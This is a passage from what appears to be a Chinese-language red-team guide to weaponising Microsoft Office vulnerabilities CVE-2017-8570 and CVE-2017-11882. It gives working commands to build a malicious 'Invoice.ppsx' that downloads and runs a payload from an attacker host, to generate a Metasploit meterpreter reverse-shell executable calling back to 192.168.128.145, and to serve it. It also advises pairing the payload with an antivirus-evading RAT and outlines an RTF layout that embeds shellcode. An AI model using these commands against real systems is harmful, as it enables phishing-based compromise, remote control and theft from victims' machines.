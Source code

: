 对于溢出漏洞，直接编写 shellcode 执行更灵活更安全，并非一定使用上述 cmd，如 chm 可以编写混淆 js(html 利用) 等。

### Offic 类型：

#### CVE-2017-8570

##### 漏洞介绍

```plain
ppsx 格式漏洞 (ppt)，利用释放特性和机制，双击 ppt 时下载 - 自动执行，样本构建过程相对固定，这里就直接用.py 脚本构建。
```

##### 构建利用步骤

```plain
python cve-2017-8570_toolkit.py -M gen -w Invoice.ppsx -u http://192.168.128.145/logo.doc
```

可以利用 Msf 回连远控，使用方式如下：

-   生成可执行文档
    
    ```plain
    python cve-2017-8570_toolkit.py -M gen -w Invoice.ppsx -u http://192.168.128.145/logo.doc
    ```
    
-   msf 生成回连 Shellcode
    
    ```plain
    msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.128.145 LPORT=2255 -f exe > /tmp/shell.exe
    ```
    
-   监听 shellcode
    
    ```plain
    python cve-2017-8570_toolkit.py -M exp -e http://192.168.128.145/shell.exe -l /tmp/shell.exe
    ```
    

这种方式查杀几率较大，但有应用场景，需要配合 RAT(可过免杀) 使用。

#### CVE-2017-11882

##### 漏洞介绍

```plain
2017 年 11 月 14 日微软发布了 11 月安全补丁，其中包含隐藏 17 年之久的 Office 漏洞，编号 CVE-2017-11882，类型是内存破坏 (溢出)，影响了几乎全部 Office 版本，攻击者可以利用漏洞进行任意攻击。
```

Rtf 是一种文档格式，它能够被多数的 Office 软件打开，兼容性比较好，文档格式如下：

```plain
RTF_HEADER + OBJECT_HEADER + OBJECT_DATA +shellcode+ OBJDATA_TEMPLATE + RTF_TRAILER。
```

##### 影响版本：

```plain
Office 365
Microsoft Office 2000      
Microsoft Office 2003      
Microsoft Office 2007 Service Pack 3
Microsoft Office 2010 Service Pack 2
Microsoft Office 2013 Service Pack 1
Microsoft Office 2016
```
